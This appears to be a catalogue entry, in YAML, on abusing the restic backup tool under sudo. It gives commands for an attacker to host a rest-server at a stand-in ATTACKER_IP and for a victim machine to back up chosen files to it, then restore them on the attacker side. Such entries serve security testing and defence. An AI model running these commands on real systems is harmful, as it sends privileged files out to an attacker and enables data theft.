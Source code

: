 ```yaml
---
functions:
  sudo:
    - description: Restic can be used to backup files. Run the commands in the sequence given below.
      code: |
        <!-- Attacker Machine -->
        rest-server --no-auth --listen http://ATTACKER_IP:PORT
        <!-- Victim Machine -->
        TARGET=rest_repository
        BACKUP=file_or_directory_to_backup
        sudo restic init -r rest:http://ATTACKER_IP:PORT/$TARGET
        sudo restic backup -r rest:http://ATTACKER_IP:PORT/$TARGET $BACKUP
        <!-- Attacker Machine -->
        TARGET=rest_repository
        DESTINATION=backup_to_restore
        mkdir /tmp/restic/$DESTINATION
        restic restore -r /tmp/restic/$TARGET latest --target /tmp/restic/$DESTINATION
---
```


